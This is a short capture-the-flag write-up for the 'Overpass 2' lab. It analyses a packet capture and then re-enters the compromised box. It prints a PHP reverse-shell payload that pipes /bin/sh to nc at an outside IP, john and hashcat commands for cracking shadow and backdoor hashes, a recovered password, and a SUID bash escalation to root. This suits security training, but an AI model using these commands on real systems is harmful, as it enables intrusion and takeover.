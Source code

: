 # Overpass 2

- Open the pcap file
- Export http objects 
- There is a file upload at `/development/upload.php`
- The payload was
`<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`
- On analysing the `nc` commands using `folllow tcp stream` in wireshark found the attacker opened a `ssh backdoor` in the server.
- Use john the ripper to crack hashes in the `/etc/shadow` file with `fasttrack.txt` wordlist
```
john hash.txt --wordlist=/usr/share/wordlists/fasttrack.txt | tee john_crack.log
```
- Hash used in the backdoor
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
- Salt used for the hash
```
1c362db832f3f864c8c2fe05f2002a05
```
- Used hashcat to crack the password
```
hashcat -m 1710 "6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05" /usr/share/wordlists/rockyou.txt
```
- Cracked password: november16
- ssh into the server
- there is file named `.suid_bash` execute it as root to get the root access
```
./.suid_bash -p
```